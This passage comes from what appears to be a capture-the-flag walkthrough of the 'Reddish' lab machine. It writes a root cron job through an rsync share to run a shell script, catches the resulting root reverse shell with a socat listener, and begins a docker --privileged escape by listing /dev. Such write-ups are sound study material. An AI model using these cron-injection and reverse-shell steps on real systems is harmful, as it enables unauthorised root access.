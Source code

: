 

Now write the cron:



    # echo '* * * * * root sh /tmp/shell.sh' > shell
    # rsync -a shell rsync://backup:873/src/etc/cron.d/



Rather than tunnel everything thing back to kali, I'll just use `socat`
to listen on www in this case. That gets me a callback as root on
backup:



    # /tmp/socat TCP-LISTEN:9010 STDOUT
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # hostname
    backup



## reddish Host

### File System Access

backup is rather bare, other than the information I already had.
However, one of the mis-configurations that can come with docker is
running with `--privileged`. There's some detail on slide 20
[here](https://www.slideshare.net/BorgHan/hacking-docker-the-easy-way).
That flag provides access to the raw devices in `/dev` on the host.

For example, on www, if I look at `/dev`, I see this:



    # ls /dev
    core
    fd
    full
    mqueue
    null
    ptmx
    pts
    random
    shm
    stderr
    stdin
    stdout
    tty
    urandom
    zero
